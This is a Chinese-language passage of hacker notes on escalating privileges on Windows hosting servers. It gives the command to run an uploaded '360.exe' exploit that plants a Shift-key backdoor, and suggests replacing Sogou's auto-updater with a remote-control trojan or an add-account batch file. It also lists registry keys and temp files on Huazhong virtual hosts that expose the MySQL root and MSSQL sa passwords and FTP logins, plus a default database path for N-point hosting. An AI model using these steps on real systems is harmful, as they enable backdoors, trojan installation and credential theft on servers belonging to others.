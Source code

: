 一流过滤相关目录及文件：

```bash
C:\7i24.com\iissafe\log\startandiischeck.txt
C:\7i24.com\iissafe\log\scanlog.htm
```

其他:
Zend文件替换：`C:\Program Files\Zend\ZendOptimizer-3.3.0\lib\Optimizer-3.3.0\php-5.2.x\ZendOptimizer.dll`
华盾文件替换：`C:\WINDOWS\hchiblis.ibl`
Flash文件替换：`C:\WINDOWS\system32\Macromed\Flash\Flash10q.ocx`
DU Meter流量统计信息日志文件替换：`c:\Documents and Settings\All Users\Application Data\Hagel Technologies\DU Meter\log.csv`

## 360提权

找个可读可写目录上传360.exe

cmd命令：`/c c:\windows\temp\cookies\360.exe`

会提示3段英文：

```bash
360 Antivirus Privilege Escalation Exploit By friddy 2010.2.2
You will get a Shift5 door!
Shift5 Backdoor created!
```

这是成功的征兆，接着连接服务器连按5下shift键，将弹出任务管理器，点击新建任务：explorer.exe 会出现桌面，接下来大家都会弄了……

## 搜狗提权 

搜狗的目录默认是可读可写的，搜狗每隔一段时间就会自动升级，而升级的文件是pinyinup.exe

我们只要把这个文件替换为自己的远控木马，或是添加账户的批处理，等搜狗升级的时候，就可以达成我们的目的了。

## 华众虚拟主机提权 

就经验来说，一般溢出提权对虚拟主机是无果的，而且华众又没有星外那么明显的漏洞。

所以华众提权关键之处就是搜集信息，主要注册表位置：

```bash
HKEY_LOCAL_MACHINE\SOFTWARE\HZHOST\CONFIG\
HKEY_LOCAL_MACHINE\software\hzhost\config\settings\mysqlpass     root密码
HKEY_LOCAL_MACHINE\software\hzhost\config\settings\mssqlpss       sa 密码
```

c:\windows\temp 下有hzhost主机留下的ftp登陆记录有用户名和密码

以上信息配合hzhosts华众虚拟主机系统6.x 破解数据库密码工具使用

百度搜索：hzhosts华众虚拟主机系统6.x 破解数据库密码工具

(( N点虚拟主机 ))

N点虚拟主机管理系统默认数据库地址为：\host_date\#host # date#.mdb
